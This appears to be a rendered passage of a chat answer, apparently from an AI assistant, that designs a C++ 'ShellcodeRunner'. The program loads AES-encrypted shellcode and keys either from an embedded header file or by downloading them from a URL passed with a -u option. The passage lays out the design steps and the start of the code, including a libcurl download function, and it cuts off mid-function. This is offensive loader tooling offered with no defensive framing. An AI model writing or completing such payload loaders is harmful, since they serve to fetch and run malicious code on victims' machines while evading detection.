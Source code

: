 
To incorporate both the option of downloading the keys and shellcode from a URL as well as embedding them directly into the C++ code through a `.h` file, we can set up a flexible system with command-line options.

### Steps:
1. **Download Option**: If the `-u` option is provided, download the keys and shellcode from the specified URL.
2. **Embedded Option**: If no `-u` option is given, fallback to using the embedded keys and shellcode from a `.h` file like you showed.

We will modify the C++ code accordingly:

### Updated C++ Code Structure

1. **Main Program (ShellcodeRunner.cpp)**:
   - Handle command-line options.
   - Check if the download option is provided (`-u`).
   - If no `-u` option, use the embedded shellcode and key from the `.h` file.

2. **Buffer.h**:
   - This will contain the embedded key and shellcode, as shown in your example.

---

### 1. Main Program (ShellcodeRunner.cpp)

```cpp
#include <windows.h>
#include <iostream>
#include <fstream>
#include <string>
#include <openssl/evp.h>
#include <curl/curl.h>

#ifdef USE_EMBEDDED
#include "buffer.h"
#endif

#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "advapi32.lib")

// Global Variables for holding shellcode and key/iv when downloaded
std::string aes_key;
std::string aes_iv;
std::string shellcode_data;

size_t WriteCallback(void* contents, size_t size, size_t nmemb, void* userp) {
    ((std::string*)userp)->append((char*)contents, size * nmemb);
    return size * nmemb;
}

void download_file(const std::string& url, std::string& output) {
    CURL* curl;
    CURLcode res;
    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();
    if (curl) {
        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, WriteCallback);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, &output);
        res = curl_easy_perform(curl);
        if (res != CURLE_OK) {
            std::cerr << "Download failed: " << curl_easy_strerror(res) << std::endl;
        }
```